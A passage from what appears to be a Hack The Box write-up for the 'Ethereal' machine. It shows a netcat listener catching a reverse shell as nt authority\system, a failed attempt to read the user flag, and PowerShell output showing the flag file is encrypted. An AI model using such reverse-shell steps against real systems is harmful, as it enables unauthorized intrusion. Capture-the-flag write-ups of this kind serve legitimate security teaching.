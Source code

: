 We got a shell as `nt authority\system`!

```
root@darkisland:~/hackthebox/Machines/Ethereal# nc -lvnp 73
listening on [any] 73 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.106] 49877
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

Strange... we don't have read access to the flags even though we are SYSTEM:

```
C:\Windows\system32>cd \users\jorge\desktop
cd \users\jorge\desktop

C:\Users\jorge\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FAD9-1FD5

 Directory of C:\Users\jorge\Desktop

07/08/2018  11:20 PM    <DIR>          .
07/08/2018  11:20 PM    <DIR>          ..
07/04/2018  10:18 PM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)  15,231,598,592 bytes free

C:\Users\jorge\Desktop>type user.txt
type user.txt
Access is denied.
```

Looking at the flags, we see that the file is encrypted:

```
PS C:\users\jorge\desktop> get-itemproperty -path user.txt  | Format-list -Property *
get-itemproperty -path user.txt  | Format-list -Property *


PSPath            : Microsoft.PowerShell.Core\FileSystem::C:\users\jorge\deskto
                    p\user.txt
PSParentPath      : Microsoft.PowerShell.Core\FileSystem::C:\users\jorge\deskto
                    p
PSChildName       : user.txt
[...]
Attributes        : Archive, Encrypted
```
